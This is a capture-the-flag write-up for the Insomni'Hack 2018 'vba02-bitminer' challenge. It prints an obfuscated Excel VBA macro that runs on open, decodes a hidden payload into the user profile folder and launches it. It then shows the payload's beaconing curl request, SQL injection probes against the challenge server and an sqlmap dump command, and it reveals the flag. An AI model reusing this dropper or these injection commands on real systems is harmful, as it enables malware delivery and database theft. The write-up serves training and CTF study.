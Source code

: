 ```yaml
---
title: Insomni'Hack 2018 - vba02-bitminer
authors: Crypt0-M3lon,ZeArioch
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
> Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:
> `vba02-bitminer_4052500b4f2120d3d3ae458b339ec1f16e89e870.xls`

## Challenge resolution
This begins again with a .xls file. We follow the same steps as the first `vba` challenge to get the macro:
```vb
Attribute VB_Name = "Module1"
Sub Auto_Open()
    Predict ("Sheet1")
End Sub
Sub Workbook_Open()
    Predict ("Sheet1")
End Sub

Private Function Predict(ByVal z As String) As String

    Dim zzzz As String
    zzzz = "bitcoin.txt"
    Dim zzzzz As String
    zzzzz = Environ("USERPROFILE")
    ChDrive (zzzzz)
    Dim zzzzzz As Integer
    ChDir (zzzzz)
    zzzzzz = FreeFile()
    Dim zzzzzzz As Integer
    Dim zz As Integer
    zz = 4
    Open zzzz For Binary As zzzzzz
    Dim zzz As Worksheet
    On Error GoTo e
    Set zzz = Worksheets(z)
    zzzzzzz = 1
    Do While zzz.Columns(zzzzzzz).Cells(zz, (3 / 2)).Value <> ""
        Do While zzz.Columns(zzzzzzz).Cells(zz, (109 / 87)).Value <> ""
            Put #zzzzzz, , CByte(zzz.Columns(zzzzzzz).Cells(zz, (5471 / 4871)).Value Xor (42 * 2 + 1))
            zzzzzzz = zzzzzzz + (781625 / 679142)
        Loop
        zz = zz + Sqr(2)
        zzzzzzz = 1
    Loop
    Close #zzzzzz
    zzzzzzzz = Shell(zzzz, vbHide)
    Exit Function
e:
    MsgBox "Unable to predict the future"
    Exit Function
End Function
```

We skip the obfuscated components to focus on the important behavior: it creates a file into the `%userprofile%` folder and runs it. We defang the macro by removing the 'Shell' line, open the Excel file and retrieve the 'bitcoin.txt' file it created. Running it in a controlled environment, we see it uses WMI to gather information about the system on which it runs and generates HTTP requests that can be translated into the following `curl` command:
```shell
curl -i -X 'POST' \
    -H 'User-Agent: Bitcoin Mining $couter 0.1 Beta 1337' -H 'Expect: 100-continue' \
    --data '<Base64-encoded string>' \
    'http://bitminer.insomni.hack/?a=benchmark'
```

The decoded Base64 is a JSON object with the following format:
```json
{
    "cid":"NOT-A-SANDBOX",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the JSON contents, we identify that the server generates an error when a single quote is present in the gpu field. The vulnerability seems to be an SQL injection which can be easily checked by sending the following `gpu` value:
* `' or 1=1 --` always true, returns `go`
* `' or 1=0 --` always false, returns `pwaaa`

Since we are lazy hackers, we use sqlmap to extract the database contents. To do so, we use the `-r` option to define a file containing all of the request information (`*` is used to mark the injection point):
```http
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
```shell
$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"NOT-A-SANDBOX","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump
```

Finaly, we retrieve the flag from the flag table: `INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}`

{% capture page_authors %}{{ page.authors }}{% endcapture %}
{% include authors.html authors=page_authors %}